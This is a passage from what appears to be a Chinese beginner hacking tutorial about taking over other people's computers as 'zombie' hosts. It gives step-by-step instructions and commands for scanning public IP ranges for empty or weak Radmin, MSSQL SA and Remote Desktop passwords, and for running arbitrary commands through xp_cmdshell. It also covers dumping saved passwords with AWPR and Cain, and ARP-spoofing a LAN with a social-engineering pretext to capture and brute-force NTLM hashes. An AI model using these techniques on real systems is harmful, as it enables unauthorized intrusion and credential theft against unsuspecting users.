

图2

点击左下角的“设置”按钮可以打开如图2的对话框，在这里可以设置密码字典。设置好密码字典后（也可以不设置），回到“肉鸡查找”主界面，输入要扫描的IP范围，啊D就自动开始扫描了。如果扫到对方的密码，啊D还会告诉我们对方的系统号。如果是Windows XP的话就不要试了，Windows XP下的远程IPC连接默认为Guest身份（哪怕你是用超级管理员的账号登录的）；但是如果是Windows 2000或者Windows 2003的话，就可以点击“Win2000远程管理”进入图3的界面，输入用户名和密码点“登录”就可以做很多事了，大家自己摸索下吧。



图3

- 2. 超清爽 4899 空口令扫描器



图4

4899端口是远程管理软件Radmin默认使用的。Radmin是目前远程管理软件中速度最快的，它体积小巧而且安装方便，所以也深受菜鸟黑客们的喜爱，用来做肉鸡的后门。不过很多菜鸟安装Radmin的时候都不够熟练，或者有些老鸟安装时喜欢偷懒，仅使用默认安装的方式，于是就残留了不少密码为空的4899肉鸡。



打开专门的扫描工具，填入要扫描的“起始IP”和“终止IP”，单击“开始搜索”，如图4。在右边显示出来的IP就是可以登录的。



打开Radmin.exe，点击“连接”→“新建连接”按钮，如图5。填入扫到的IP地址，确定后就把那个IP地址加到Radmin控制端了。单击它可以选择多种控制方式，如图6。

##### 3. SA 弱口令扫描器

SA是MSSQL（微软数据库服务）默认安装自带的用户，如果不特别做安全设置，它还拥有系统权限。早期MSSQL在安装的时候并不强制要求用户对它设置强悍的密码，导致当时SA空口令肉鸡满天飞。



现在MSSQL在安装的时候会提醒管理员：SA用户的空口令是不被推荐的，因此找到SA弱口令的肉鸡难度增大了许多，但是它依然是菜鸟们寻找肉鸡的一种方法。这里推荐的工具是scansql.exe，解压缩后打开CMD.exe进入到scansql.exe所在目录下，然后输入 `scansql.exe 开始IP 终止IP [线程数]` 就可以开始扫描了。在这里我使用 `scansql.exe 61.233.39.1 61.233.41.254`，效果如图7。

如果扫描到弱口令的IP，就可以用SQL连接器进行连接。（因为时间关系，这里并没有成功地扫描到。）打开连接器，如图8。在Host里填入目标IP地址，下方填入用户名和密码，单击右边的“Connect”连接到目标，然后在下方的Format里选择 `xp_cmdshell "%s"`，就可以到CMD栏中输入任意命令并执行了。



##### 4. 3389 密码破解

3389是Windows远程终端服务默认使用的端口，使用远程桌面连接器连接到服务器后，我们可以像在本地操作一样方便地控制远程服务器。因此，这个原本用于Windows管理员管理服务器的服务，也得到了黑客们的青睐。

通过大量扫描3389端口，我们可以找到很多开放此服务的服务器。这时候菜鸟们最喜欢问的问题就是：“我找到了好多3389肉鸡，要怎么样才可以入侵它啊？”需要解释的是，扫描到对方打开3389端口并没有什么值得高兴的，我们还需要有用户名和密码才能登录上去。

首先，在CMD下进入tscrack.exe所在的目录，运行tscrack.exe不加任何参数，可以看到它会先自解压缩几个文件出来进行安装，然后打印出工具的用法。如果我们想猜对方是不是new用户而且空口令的话，就可以输入 `tscrack.exe -l new -p "" 192.168.0.123` 来猜解，它会自动打开一个3389连接器，用我们指定的用户名和密码来登录到指定IP，如图9。



（这里截图是用本机做的演示，实际的扫描中要看对方的系统类型来决定使用什么账户。一般Windows XP用new或者Administrator做用户名，空密码；其他系统就试试Administrator用户空密码，不行就紧撤，换下一个目标。）

#### 二、本地密码攻防

##### 1. AWPR 揪出所有存储的密码

在公司里，我们都喜欢使用网上邻居来共享文件。可是Windows 2003下设置的共享在访问时需要输入用户名和密码，比如我访问sagi的机器时，就出现了这样的情况。为了安全起见，sagi又不能告诉我他的密码是多少，于是一般我就叫sagi自己来输密码后，选择“保存密码”以方便日后的访问共享文件。

可是最近装上了AdvancedWindowsPasswordRecovery（以下简称AWPR）做测试，打开后切换到Advanced features选项卡，选择“Net passwords”，居然显示出了sagi当时输入的密码！（旁边还有我的MSN密码，后来搜索了一下相关资料，知道这个工具能把几乎所有存储在电脑里的明文密码给显示出来。如果开启了自动登录或者其他的密码保存功能，这些隐私在AWPR中将全部暴露出来），如图10。

##### 2. CAIN 不为人知的密码破解功能

讲到本地密码的破解，就不得不推荐一下CAIN这款工具了。它本身是一款用于嗅探的非常好用的黑客工具，可是却很少有人提到它的密码破解功能。这里我用CAIN 2.8.2雨夜汉化版为例，安装后在开始菜单里找到它运行，选择“受保护密码”，在空白处右键选择刷新，看看发现了什么？如果你打开了IE的自动完成功能的话，就会看到这里显示了所有保存在IE里的信息，包括你最喜欢用的ID、Email、密码提示问题和答案，或者是某些网站的用户名和密码，如图11。



图11

切换到破解器你会发现更多破解工具，不仅支持常见的MD5解密，还支持MSSQL、MYSQL、SMB（局域网中用得最多的文件共享协议，访问网上邻居就会使用这个协议）等加密后的散列进行破解。

这里举一个真实的案例：一个公司的主要文件都放在192.168.0.19（主机A）里，192.168.0.201（主机B）拥有访问A的权限，C是恶意攻击者，他也想访问A机，却不知道A机的用户名和密码。现在他打开CAIN，ARP欺骗A和B，步骤如下。

切换到“嗅探”选项，在底部选择“主机”，然后在中间的表格处点击右键，选择“扫描MAC地址”，如图12。（如果弹出警告框，可能是因为你没有开启嗅探功能，先点击图标栏第二个按钮“开始/停止嗅探”开启。）



图12

确定后将扫出当前网络中所有存在的MAC地址。在底部切换到“ARP”选项，中部将分成两个分栏。首先在图13中所示处单击，“添加到列表”小图标将变为可用状态，单击那个小图标，选中192.168.0.19（A）和192.168.0.201（B），确定后就开始进行ARP欺骗了，如图13。



图13

这时，点击“开始/停止ARP欺骗”按钮（在刚才“添加到列表”的左边）就可以开始嗅探了。此时找个借口告诉B，说A主机上发布了一个新的重要资料，让他去查一下。这样B在访问A机器的时候，C机器就成功地抓到了用户名和密码，如图14。



图14

从图中我们可以看到用户名是administrator，但是密码处为空，后面还有一大串加密过的散列。我们在该项上单击右键，选择“发送到破解器”。现在切换到“破解器”选项中，会看到刚才发过来的密码散列。在其上单击右键，可以选择“字典破解(NTLM session Security)”或者“暴力破解(NTLM session Security)”，如图15。


图15

如果是字典破解的话，还需要大家事先做一个比较好的字典（关于如何制作字典，上期菜鸟学堂有介绍）。这里我们选择暴力破解8位以下的纯数字看看。选择“暴力破解(NTLM session Security)”会进入图16的界面，在“预设”处选择“0123456789”，把最大长度减小一点，比如8位，然后单击“开始”就可以破解了。由于汉化版做得有点问题，回显框里的字体太小，所以当你看到破解停止的时候，可以把回显框里的信息全选复制出来贴到记事本里，如图16。



图16

